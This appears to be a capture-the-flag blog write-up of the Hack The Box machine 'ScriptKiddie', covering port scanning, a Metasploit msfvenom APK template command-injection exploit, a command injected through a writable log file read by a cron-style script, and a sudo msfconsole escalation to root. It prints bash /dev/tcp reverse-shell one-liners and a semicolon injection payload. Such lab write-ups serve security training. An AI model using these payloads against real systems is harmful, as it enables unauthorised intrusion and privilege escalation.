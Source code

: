+++
    title = "Hack The Box: ScriptKiddie"
    date = "2021-05-06T14:24:52+10:00"
    author = "Jarrod Cameron"
    authorTwitter = "" #do not include @
    cover = "/posts/scriptkiddie/banner.png"
    tags = ["HackTheBox", "writeup"]
    keywords = ["", ""]
    description = "This machines starts out with uploading a malicious file to a HTTP web server which allows for remote code execution. This can be used to get a reverse shell to the machine. Once inside the machine, a vulnerability in a script can be exploited to get a reverse shell as a different user. This new user can then run a command with `sudo` without a password which can be exploited to get a root shell."
    showFullContent = false
    draft = false
+++

# Enumeration

It's difficult to attack a machine without knowing what's available, so firstly
`nmap` will be used to all open TCP ports.

```bash
# Run as root
nmap -sS -p- '10.10.10.226'
```

`nmap` then returns the following:

```nmap
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-06 14:35 AEST
Nmap scan report for 10.10.10.226
Host is up (0.011s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 86.85 seconds
```

## Enumerating Port 5000/TCP (HTTP)

Although port 5000 is not a port regularly used for HTTP, it's possible a HTTP
web server is listening on port 5000. This theory can be tested by
visiting the URL [http://10.10.10.226:5000/](http://10.10.10.226:5000/).

{{< image src="index.png" position="center" style="border-radius: 8px;" >}}

# Reverse Shell

Under the "payloads" section of the website there is an option to upload a
template. `msfvenom` (a reference from "venom it up") is a tool which generates
payloads used when writing exploits. The tool's website
([here](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/))
has a brief summary of how a template is used:

> The __-x__, or __-template__, option is used to specify an existing executable to use as a template when creating your executable payload.

## Generating Payload

Search `msfconsole` for "template" reveals an interesting payload:

```bash
msf6 > search template

Matching Modules
================

   #   Name                                                                    Disclosure Date  Rank       Check  Description
   -   ----                                                                    ---------------  ----       -----  -----------
[snip]
   16  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection
[snip]
msf6 > use 16
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) >
```

If this exploit works then a reverse shell is trivial.

{{< code language="bash" title="Setting Parameters" expand="Show" collapse="Hide" >}}
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > ip addr show tun0
[*] exec: ip addr show tun0

5: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none
    inet 10.10.14.69/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::1043/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::a25d:ffa:f438:3b69/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.69
LHOST => 10.10.14.69
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 4444
LPORT => 4444
{{< /code >}}

After setting the parameters the payload needs to be generated:

{{< code language="bash" title="Setting Parameters" expand="Show" collapse="Hide" >}}
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /root/.msf4/local/msf.apk
{{< /code >}}

## Triggering the Reverse Shell

Before trying the exploit, a listener needs to be set up on the local machine.
This can be done using the following command.

{{< code language="bash" title="Setting up listener" expand="Show" collapse="Hide" >}}
nc -lvnp 4444
{{< /code >}}

Once the listener is ready, then the payload is uploaded to the victim's machine.
NOTE: The "os" must be set do "android" and the "lhost" must be set to any
valid IPv4 address (e.g. "0.0.0.0"). The page (just before uploading the
exploit) can be seen below:

{{< image src="upload.png" position="center" style="border-radius: 8px;" >}}

After pressing the "generate" button the `nc` listener is given a reverse
shell, which can be seen below


{{< code language="bash" title="Receiving the reverse shell" expand="Show" collapse="Hide" >}}
$ nc -lvnp 4444
Connection from 10.10.10.226:51106
ls
__pycache__
app.py
static
templates
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
{{< /code >}}

# Lateral Movement: "pwn"

Searching around the machine it appears there are two users. The current user
is "kid" and another non-root user is "pwn". This can be seen from looking at
the "/home/" directory.

{{< code language="bash" title="Checking out /home" expand="Show" collapse="Hide" >}}
$ ls /home
kid
pwn
{{< /code >}}

There's a file called `scanlosers.sh` which contains a glaring vulnerability.
The file can be seen below.

{{< code language="bash" title="/home/pwn/scanlosers.sh" expand="Show" collapse="Hide" >}}
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
{{< /code >}}

If the `$log` file is writable then it's possible to set `$ip` to a command
and have it executed by the "pwn" user.

{{< code language="bash" title="Permissions of \"hackers\"" expand="Show" collapse="Hide" >}}
$ ls -l /home/kid/logs/hackers
-rw-rw-r-- 1 kid pwn 0 May  7 10:33 /home/kid/logs/hackers
{{< /code >}}

Since the current shell is running as the "kid" user then the file is
writable.

## Exploiting "scanlosers.sh"

The following code would trigger a reverse shell, however it just needs to be
run by the `scanlosers.sh` script

{{< code language="bash" title="Reverse shell" expand="Show" collapse="Hide" >}}
/bin/bash -i >& /dev/tcp/10.10.14.69/5555 0>&1
{{< /code >}}

Before using the reverse shell, a listener needs to be started. Here, the
listener is listening on port 5555.

{{< code language="bash" title="Listening on port 5555" expand="Show" collapse="Hide" >}}
nc -lvnp 5555
{{< /code >}}

The following line will insert the payload into the "hackers" file. The payload
starts with some dummy characters, "a b c", since the `cut -d' ' -f3-` command
will will ignore the first three fields. The ";" is used to end the previous
command and to start the next command; the reverse shell.

{{< code language="bash" title="Reverse shell payload" expand="Show" collapse="Hide" >}}
echo "a b c ; bash -c '/bin/bash -i >& /dev/tcp/10.10.14.69/5555 0>&1' # A" >> /home/kid/logs/hackers
{{< /code >}}

Triggers a new shell for the "pwn" user.

{{< code language="bash" title="Reverse shell payload" expand="Show" collapse="Hide" >}}
pwn@scriptkiddie:~$ ls
recon
scanlosers.sh
pwn@scriptkiddie:~$ id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
{{< /code >}}

# Privilege Escalation

The `sudo -l` command will show commands that a user can run with the `sudo`
command. The following command shows the results of running `sudo -l`.

{{< code language="bash" title="Running `sudo -l`" expand="Show" collapse="Hide" >}}
pwn@scriptkiddie:~$ sudo -l
[snip]
User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
{{< /code >}}

This means the user can run `/opt/metasploit-framework-6.0.9/msfconsole` as
root without a password!

Once `msfconsole` has been started, `/bin/bash` can be used to drop to a shell,
which results in a root shell!

{{< code language="bash" title="Becoming root" expand="Show" collapse="Hide" >}}
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
[snip]
msf6 > /bin/bash
[snip]
id
uid=0(root) gid=0(root) groups=0(root)
{{< /code >}}
